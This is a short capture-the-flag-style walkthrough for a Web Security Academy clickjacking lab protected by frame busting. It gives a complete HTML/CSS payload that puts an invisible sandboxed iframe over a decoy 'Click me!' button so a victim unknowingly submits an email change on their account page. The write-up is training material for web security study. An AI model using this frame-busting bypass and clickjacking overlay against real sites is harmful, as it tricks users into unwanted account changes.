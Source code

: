 First login as `wiener` user. Next, `Got to exploit server` and paste the code from the previous lab and edit the url. If you click on `View exploit` you'll see that our iframe cannot be loaded, most probably due to frame busting scripts.

![image](https://user-images.githubusercontent.com/86168235/130333149-c08d614e-9291-4e9a-b119-be278172b405.png)

We can bypass this by adding the **sandbox** attribute to our iframe and the value of the attribute to **"allow-forms"**. Paste the following code into the **Body** field in the exploit server.

```
<br>
<style>
   #iframeBlock {
       position:relative;
       width:700;
       height: 500;
       opacity: 0.0;
       z-index: 2;
   }
   #divBlock {
       position:absolute;
       color:green;
       top:478;
       left:70;
       z-index: 1;
   }
</style>
<div id="divBlock">Click me!</div>
<iframe id="iframeBlock" src="https://ac8b1fb91e67a5c3805260b000470089.web-security-academy.net/my-account?email=a@bc.net" sandbox="allow-forms"></iframe>

```

Finally, click on `Deliver exploit to victim` and the lab will be solved!
